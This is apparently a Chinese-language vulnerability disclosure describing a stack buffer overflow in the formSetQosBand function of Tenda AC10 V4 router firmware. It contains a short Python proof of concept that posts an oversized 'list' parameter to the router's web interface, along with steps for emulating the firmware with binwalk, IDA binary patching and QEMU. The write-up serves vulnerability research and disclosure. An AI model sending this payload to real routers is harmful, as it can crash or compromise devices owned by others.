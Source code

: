 # Vulnerability Discovery

## 记: IoT路由固件漏洞挖掘

### 产品

* Tenda AC10
* 固件下载地址: [https://www.tenda.com.cn/download/detail-3684.html](https://www.tenda.com.cn/download/detail-3684.html)
* 硬件版本: V4.0
* 软件版本: V16.03.10.20
* 说明：此固件仅适用于AC10 v4型号的机器升级

### 影响版本

V16.03.10.20

### 漏洞细节

Tenda AC10 V16.03.10.20固件&#x5728;**`formSetQosBand`**&#x51FD;数中存在**堆栈溢出漏洞**。

<figure><img src="../../.gitbook/assets/1 (2).png" alt=""><figcaption></figcaption></figure>

从POST请求接收“list”参数赋值给变量s，该变量作为参数传递到函&#x6570;**`set_qosMb_list`**&#x4E2D;。在函&#x6570;**`set_qosMb_list`**&#x4E2D;，变量a1被传递给s，后者随后被分配给v9变量，该变量固定为256字节。然而，由于用户可以控制列表的输入，因此语句`strcpy（v9,s)`可能导致缓冲区溢出。用户提供的列表可能超过v9变量的容量，从而触发此安全漏洞。

<figure><img src="../../.gitbook/assets/2 (2).png" alt=""><figcaption></figcaption></figure>

### Exp

```
import requests
from pwn import*
​
ip = "***"  #仿真IP地址
url = "http://" + ip + "/goform/SetNetControlList"
payload = b"a"*2000
​
data = {"list": payload} #溢出数据传递给list
res = requests.post(url, data=data)
```

#### 仿真

参考文章：

[https://blog.csdn.net/qq\_45894840/article/details/136514555](https://blog.csdn.net/qq_45894840/article/details/136514555)

工具：

Binwalk、IDA 7.6 Pro、QEMU

详细过程：

首先使用Binwalk提取固件文件系统，提取后会在当前目录生成一个文件夹，进入文件夹，在squashfs-root目录下是路由器主要运行的一些东西

```
binwalk -Me 固件名称.bin
```





<figure><img src="../../.gitbook/assets/3 (2).png" alt=""><figcaption></figcaption></figure>

需要分析的固件在bin目录下，bin/httpd这个程序就是路由器主要运行的固件，使用file命令可以得知路由器固件相关的信息，比如这次的路由二进制文件是mips指令架构，32位ELF

<figure><img src="../../.gitbook/assets/4 (2).png" alt=""><figcaption></figcaption></figure>

尝试使用qemu运行，失败，权限不足，改用sudo以后发现路由器运行输出welcome以后卡住

<figure><img src="../../.gitbook/assets/5 (2).png" alt=""><figcaption></figcaption></figure>

这是因为路由器检测环境功能的存在，接下来使用IDA破解路由器检测环境

#### IDA破解路由器检测环境

思路就是找到验证的代码nop掉验证的指令，patch二进制文件就可以，详细过程参考图片如下

先找到相关的代码，这里直接搜索字符串查看其xref

<figure><img src="../../.gitbook/assets/6 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/8 (2).png" alt=""><figcaption></figcaption></figure>

定位到main函数，找到相关的代码，发现是一个while循环，通过了if的验证才能跳出：

<figure><img src="../../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

对应的汇编如下，也就是说需要nop掉红框中的两个跳转

<figure><img src="../../.gitbook/assets/11 (1).png" alt=""><figcaption></figcaption></figure>

在IDA中Patch Bytes（Edit->Patch program->change byte）将前四字节修改为00，就能换成nop指令了

<figure><img src="../../.gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

完成以后打补丁（Edit->Patch program->Apply patches to input file）

替换文件以后需要注意给文件赋权限：

```
chmod 777 httpd
```

<figure><img src="../../.gitbook/assets/13 (1).png" alt=""><figcaption></figcaption></figure>

最后仿真（添加新的网卡，这里一开始我没有添加正确一直创建soccket报错卡了很久啊啊啊）

<figure><img src="../../.gitbook/assets/14 (1).png" alt=""><figcaption></figcaption></figure>

```
（sudo）：
brctl addbr br0
brctl addif br0 eth0 #注意！！！这里网卡绑自己虚拟机的eths
ifconfig br0 up
dhclient br0 
```

最后执行Poc成功触发漏洞：

<figure><img src="../../.gitbook/assets/15 (1).png" alt=""><figcaption></figcaption></figure>

